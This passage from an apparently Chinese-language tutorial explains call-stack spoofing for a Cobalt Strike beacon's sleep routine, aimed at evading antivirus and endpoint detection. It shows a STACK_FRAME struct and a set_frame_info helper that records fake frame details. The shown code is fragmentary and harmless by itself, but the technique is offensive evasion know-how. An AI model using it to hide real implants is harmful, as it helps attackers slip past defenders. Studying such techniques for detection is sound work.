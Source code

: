 

这里我们将`evasive_sleep.c`注释掉, 使用`evasive_sleep_stack_spoof.c`来启用堆栈欺骗功能

![image-20231110194132925](利用CS的Profile文件实现免杀/image-20231110194132925.png)	



接下来我将讲解堆栈欺骗在`evasive_sleep_stack_spoof.c`中的实施过程，首先定义了一个`STACK_FRAME`结构，用来存储每个伪造的堆栈帧的详细信息，比如目标DLL名称、函数哈希、偏移量、返回地址等等

> 堆栈帧：其实就是栈中的一个“层”，每个函数调用都会在调用堆栈上“push”一个新的堆栈帧，并在函数返回时“pop”这个堆栈帧

```cpp
typedef struct _STACK_FRAME {
    WCHAR targetDll[MAX_PATH];
    DWORD functionHash;
    ULONG offset;
    ULONG totalStackSize;
    BOOL requiresLoadLibrary;
    BOOL setsFramePointer;
    PVOID returnAddress;
    BOOL pushRbp;
    ULONG countOfCodes;
    BOOL pushRbpIndex;
} STACK_FRAME, *PSTACK_FRAME;
```



然后通过 `set_frame_info` 函数，可以为每个欲模拟的堆栈帧设置这些详细信息

```cpp
void set_frame_info(
    OUT PSTACK_FRAME frame,
    IN LPWSTR path,
    IN DWORD api_hash,
    IN ULONG target_offset,
    IN ULONG target_stack_size,
    IN BOOL dll_load)
{
    memset(frame, 0, sizeof(STACK_FRAME));
    lstrcpyW(frame->targetDll, path) ;
    frame->functionHash = api_hash;
    frame->offset = target_offset;
    frame->totalStackSize = target_stack_size;
    frame->requiresLoadLibrary = dll_load;
    frame->setsFramePointer = FALSE;
    frame->returnAddress = 0;
    frame->pushRbp = FALSE;
    frame->countOfCodes = 0;
    frame->pushRbpIndex = 0;
}
```
